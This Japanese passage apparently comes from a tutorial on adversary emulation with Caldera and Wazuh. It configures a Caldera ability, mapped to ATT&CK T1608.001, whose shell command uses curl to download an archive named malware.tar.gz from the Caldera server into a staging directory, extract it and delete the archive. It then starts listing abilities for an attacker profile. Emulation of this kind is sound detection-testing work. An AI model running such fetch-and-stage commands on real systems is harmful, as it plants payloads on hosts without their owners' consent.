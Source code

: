 作成画面で以下のように設定します。

| Name | Value |
| - | - |
| Name | Download malware to staged directory |
| Description | 任意の概要文 |
| Tactic | stage-capabilities |
| Technique ID | T1608.001 |
| Technique Name | Stage Capabilities: Upload Malware |
| Options | Delete payload |
| Executors | 以下のように設定 |


| Name | Value |
| - | - |
| Platform | Linux |
| Executor | sh |
| Payloads | No payloads |
| Command | 以下のコマンドを設定 |
| Requirement Module | plugins.stockpile.app.requirements.paw_provenance |
| Source | host.dir.staged |

```shell
# アーカイブしたマルウェアをCalderaサーバーからダウンロードして展開
curl -s -X POST -H "file:malware.tar.gz" -H "platform:linux" #{server}/file/download > #{host.dir.staged}/malware.tar.gz && tar -xzf #{host.dir.staged}/malware.tar.gz -C #{host.dir.staged} && rm #{host.dir.staged}/malware.tar.gz
```

アビリティを作成したら攻撃者プロファイル作成画面で必要なアビリティを選択して新しいプロファイルを作成します。
選択するアビリティは以下の４つです。

1. Create staging directory（戦術：collection、テクニックID：T1074.001）
1. 自作したアビリティ

<figure><img src="./images/adversary-emulation-with-caldera-and-wazuh/adversary-create_stage_capabilities.png" class="md:max-w-xl"/></figure>
